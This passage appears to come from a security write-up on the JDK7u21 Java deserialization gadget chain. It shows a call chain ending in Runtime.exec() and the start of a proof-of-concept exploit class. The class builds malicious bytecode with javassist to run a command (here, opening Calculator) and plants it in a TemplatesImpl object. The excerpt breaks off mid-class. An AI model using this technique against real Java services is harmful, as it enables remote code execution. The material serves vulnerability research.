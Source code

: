```java
                            MaliciousClass.<clinit>()
                              ...
                                Runtime.exec()
```

# POC
 - POC1

```java
package org.h3rmesk1t.JDK7u21;


import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.HashSet;
import java.util.LinkedHashSet;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/10 8:16 pm
 */
public class ExploitOfJDK7u21 {

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {

        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static TemplatesImpl generateEvilTemplates() throws Exception {

        // Generate malicious bytecodes
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\");";
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractMethodError.class));
        CtClass ctClass = pool.makeClass("JDK7u21Exploit");
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        ctClass.makeClassInitializer().insertBefore(cmd);
        byte[] ctClassBytes = ctClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{ctClassBytes};

        // Instantiate the class and set properties
        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_name", "h3rmesk1t");
        setFieldValue(templatesImpl, "_bytecodes", targetByteCodes);
```